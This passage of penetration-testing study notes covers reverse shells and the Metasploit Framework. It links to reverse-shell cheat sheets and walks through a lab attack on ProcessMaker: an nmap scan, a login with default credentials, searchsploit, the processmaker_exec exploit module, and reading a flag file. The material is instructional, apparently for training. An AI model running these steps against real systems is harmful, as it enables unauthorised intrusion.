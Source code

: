The great thing about a reverse shell is that, since the connection to the Netcat listener is initiated by the target system, it doesn't have to rely on Netcat. The connection can also be established using PowerShell commands on Windows or standard Bash commands on Linux.

### 4.4.  Reverse Shells Cheat-sheet

The connection to the netcat listener on the attacker system can be made through the use of Power Shell code; we can do it with simple bash code of just Python code, C code.

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Rev Shells](https://www.revshells.com/)

<br>

## 5. Exploitation framework

### 5.1. The Metasploit Framework (MSF) ⚗️

When using the Metasploit Framework with Meterpreter payloads, you don’t use a standard Netcat listener to receive the connection. Instead, you need to use the `multi/handler` module, which is designed to handle incoming connections from Metasploit payloads. This module acts as a listener for reverse shells and can also be configured to handle raw Netcat connections if needed.

In this section we are primarily going to be focused on exploit modules and payloads (Exploitation).

```shell
nmap -sS -sV <target_IP>
# Based on the output we can say that is a Windows system
# We are not getting any info about the version. Search online Process Maker default credentials
# admin - admin / login is successfull
# System Information > ProcessMaker Ver. ****
# We can now start searching vuln for this specific version

searchsploit ProcessMaker

service postgresql start && msfconsole
search ProcessMaker
use exploit/multi/http/processmaker_exec
set RHOSTS <target_IP>
exploit

cd /
ls
cat flag.txt

searchsploit -m 29325 # Make a copy and analyze it locally
vim 29325.rb # So let's get an understanding on what this module does. We can see that it's developed in Ruby
# However we are interested in the description section of the metasploit module -- q!
# This module is designed to work with the metasploit module
```
